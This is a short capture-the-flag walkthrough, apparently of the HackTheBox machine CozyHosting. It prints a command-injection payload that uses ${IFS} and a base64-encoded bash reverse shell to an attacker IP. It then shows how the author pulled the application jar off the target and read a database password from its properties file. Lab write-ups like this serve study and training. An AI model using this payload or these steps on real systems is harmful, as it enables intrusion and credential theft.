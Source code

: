 I will quit, because Im not understanding nothing. This is very advanced to me i think.... good bye.


I'm here again, I change the strategy, just watch for another person who resolve it, but now im using another payload, and it worked... Im listening with nc on the 4444

and the payload is this :


## The hardest part ##


basically the place on 
```
;echo${IFS}"YmFzaCAtaT4mIC9kZXYvdGNwLzEwLjEwLjE2LjQ1LzQ0NDQgMD4mMQopayl="|base64${IFS}-d|bash;
```
So, what is IFS ???

La variable de entorno IFS que significa Internal Field Separator (separador de campos internos), sirve para indicar que valor se usa como separador. Puede usarse para varios trucos de los cuales pongo a continuación los más interesantes:

Here we have some explanations : https://www.imd.guru/sistemas/bash/ifs.html

https://www.reiser.cl/linux-uso-de-ifs-y-comando-read-en-scripts-bash/


Ok, we are in.. on the app folder

![[Screenshot_2023-09-09_12_15_51.png]]
	we must download the jar file to our machine

so on the target create a python  server
```
python -m http.server 8888
```

and on my pc I downloaded with

```
wget 10.10.11.230:8888/cloudhosting-0.0.1.jar
```

We now have the file, to unzip it change the name of the extension from jar to zip

now we search on the folders a file called application.properties, inside of it we have access to the postgress password

```
┌──(cds㉿kali)-[~/…/CozyHosting/content/BOOT-INF/classes]
└─$ cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR             
```

